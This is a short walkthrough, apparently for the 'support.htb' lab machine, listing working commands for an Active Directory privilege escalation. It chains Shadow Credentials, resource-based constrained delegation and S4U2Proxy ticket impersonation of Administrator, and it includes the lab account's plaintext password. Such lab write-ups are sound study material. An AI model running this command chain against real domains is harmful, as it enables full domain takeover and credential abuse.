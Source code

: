 ## Shell as domainadmin
METHOD : 1
---
# 🛡️ Exploitation Steps: support.htb Domain Controller (RBCD + ShadowCred)

This document outlines all the **working commands** used during the exploitation of `support.htb` using Shadow Credentials, RBCD, and Pass-the-Ticket.

---

## 🔐 Step 1: Shadow Credentials Injection via pyWhisker

```bash
pywhisker.py -d "support.htb" -u "support" -p 'Ironside47pleasure40Watchful' --target "DC$" --action add --dc-ip 10.10.11.174
```

---

## 🖥️ Step 2: Add Machine Account for Delegation (RBCD)

```bash
addcomputer.py support.htb/support:'Ironside47pleasure40Watchful' -dc-host 10.10.11.174 -method SAMR -computer-name RBCD$ -computer-pass 'P@ssw0rd123!'
```

---

## 🔗 Step 3: Link RBCD$ to DC$ via RBCD

```bash
rbcd.py support.htb/support:'Ironside47pleasure40Watchful' -delegate-from RBCD$ -delegate-to DC$ -dc-ip 10.10.11.174 -action write
```

---

## 🎟️ Step 4: Get TGT for RBCD$

```bash
getTGT.py support.htb/RBCD\$:'P@ssw0rd123!' -dc-ip 10.10.11.174
```

---

## 🧥 Step 5: Impersonate Administrator using S4U2Proxy

```bash
export KRB5CCNAME=RBCD$.ccache && getST.py -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/RBCD\$
```

---